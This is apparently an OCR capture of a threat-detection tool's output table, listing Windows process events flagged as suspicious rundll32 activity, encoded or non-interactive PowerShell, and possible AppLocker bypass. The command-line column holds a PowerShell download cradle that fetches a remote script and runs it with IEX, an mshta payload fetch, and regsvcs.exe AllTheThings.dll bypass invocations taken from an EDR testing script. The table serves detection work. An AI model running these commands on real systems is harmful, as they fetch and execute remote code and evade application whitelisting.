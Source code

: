     │                     │    │ ‣ Suspicious Rundll32 Activity           │                                │                                                    │ aw.githubusercontent.com/op7ic/EDR-Testing-Script/ │
    │                     │    │                                          │                                │                                                    │ master/Payloads/Mshta_calc.sct").Exec();close();   │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-29 21:33:23 │ 1  │ ‣ Encoded PowerShell Command             │ "MSEDGEWIN10"                  │ C:\Windows\System32\WindowsPowerShell\v1.0\powersh │ powershell -c "(New-Object Net.WebClient).Download │
    │                     │    │ Line                                     │                                │ ell.exe                                            │ File('https://raw.githubusercontent.com/op7ic/EDR- │
    │                     │    │ ‣ Non Interactive PowerShell             │                                │                                                    │ Testing-Script/master/Payloads/CradleTest.txt','De │
    │                     │    │                                          │                                │                                                    │ fault_File_Path.ps1');IEX((-Join([IO.File]::ReadAl │
    │                     │    │                                          │                                │                                                    │ lBytes('Default_File_Path.ps1')|ForEach-Object{[Ch │
    │                     │    │                                          │                                │                                                    │ ar]$_})))"                                         │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-29 21:33:28 │ 1  │ ‣ Possible Applocker Bypass              │ "MSEDGEWIN10"                  │ C:\Windows\System32\cmd.exe                        │ cmd /c C:\Windows\Microsoft.NET\Framework\v4.0.303 │
    │                     │    │                                          │                                │                                                    │ 19\regsvcs.exe AllTheThings.dll                    │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-29 21:33:28 │ 1  │ ‣ Possible Applocker Bypass              │ "MSEDGEWIN10"                  │ C:\Windows\System32\cmd.exe                        │ cmd /c C:\Windows\Microsoft.NET\Framework\v2.0.507 │
    │                     │    │                                          │                                │                                                    │ 27\regsvcs.exe AllTheThings.dll                    │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-29 21:33:29 │ 1  │ ‣ Possible Applocker Bypass              │ "MSEDGEWIN10"                  │ C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegS │ C:\Windows\Microsoft.NET\Framework\v4.0.30319\regs │
    │                     │    │                                          │                                │ vcs.exe                                            │ vcs.exe AllTheThings.dll                           │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-29 21:33:29 │ 1  │ ‣ Possible Applocker Bypass              │ "MSEDGEWIN10"                  │ C:\Windows\System32\cmd.exe                        │ cmd /c C:\Windows\Microsoft.NET\Framework64\v2.0.5 │
    │                     │    │                                          │                                │                                                    │ 0727\regsvcs.exe AllTheThings.dll                  │
